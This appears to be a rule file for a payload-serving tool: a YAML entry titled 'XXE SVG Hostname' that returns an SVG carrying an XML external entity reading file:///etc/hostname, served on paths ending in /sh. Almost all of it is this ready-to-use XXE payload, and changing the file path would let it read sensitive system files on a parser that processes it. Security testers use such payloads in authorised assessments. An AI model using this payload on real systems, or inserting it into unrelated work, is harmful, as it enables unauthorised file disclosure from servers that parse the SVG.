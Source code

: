 ```yaml
---
title: XXE SVG Hostname
description: Returns an SVG payload with XXE to get files
weight: 1
pattern: /sh$
is_final: true
data:
  headers:
    Content-Type: text/xml
  body: |
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>



---
```



### /sh

attempts to get /etc/hostname

SVG with XXE payloads
